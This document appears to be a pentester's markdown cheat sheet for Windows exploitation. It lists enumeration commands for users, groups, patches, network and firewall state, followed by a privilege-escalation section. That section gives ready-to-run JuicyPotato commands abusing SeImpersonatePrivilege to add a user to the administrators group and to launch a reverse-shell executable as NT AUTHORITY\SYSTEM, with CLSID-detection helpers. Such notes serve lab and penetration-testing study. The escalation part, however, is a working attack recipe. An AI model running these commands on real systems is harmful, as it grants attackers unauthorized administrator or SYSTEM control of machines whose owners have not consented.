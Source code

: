 # Windows-Exploitation

## Windows enumeration

#### Who
```
whoami
echo %username%
whoami /priv
```

#### Users and groups
```
// What users/localgroups are on the machine?
net users
net localgroups

// More info about a specific user. Check if user has privileges.
net user user1

// View Domain Groups
net group /domain

// View Members of Domain Group
net group /domain {Group Name}
```

#### System info
```
systeminfo
ver
hostname
```

#### Patch on the system
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

#### Network
```
ipconfig /all
route print
arp -A
```

#### Firewall
```
netsh firewall show state
netsh firewall show config
```

##### Search a specific filename
```
dir /b/s proof.txt
```

## Automated enumeration

## Privesc

#### MS17-010 - Eternal Blue


#### Abuse SeImpersonatePrivilege

```
➤ 1. Verify that 'SeImpersonatePrivilege' privilege is enabled.

C:\Users\Lexis>whoami /priv
Informations de privilèges
----------------------

Privilege Name                Description                                  State
============================= ============================================ =========
SeShutdownPrivilege           Stop the system                              Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                     Enabled
SeImpersonatePrivilege        Impersonate a client after authentication    Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set               Disabled

➤ 2. Import JuicyPotato on the victim

➤ 3. Basic attacks without specific CLSID

// Add a user in the administrators group
.\JuicyPotato.exe -l 1337 -p C:\Windows\system32\cmd .exe -t * -a "/c net localgroup administrators {MY_EXISTING_USER} /add"

// Execute a reverse shell as NT AUTHORITY\SYSTEM
.\JuicyPotato.exe -l 1337 -p C:\Users\public\rshell.exe -t *

➤ 4. Using specific CLSID

helper : https://ohpe.it/juicy-potato/CLSID/

//Manual CLSID dectection based on OS version
https://ohpe.it/juicy-potato/CLSID/

//Automated CLSID detection scripts
.\GetCLSID.ps1
or 
.\clisd-detector.bat

//Add a user in the administrators group using the specific CLSID
.\JuicyPotato.exe -l 1337 -p C:\Windows\system32\cmd .exe -t {CLSID} -a "/c net localgroup administrators {MY_EXISTING_USER} /add"
```
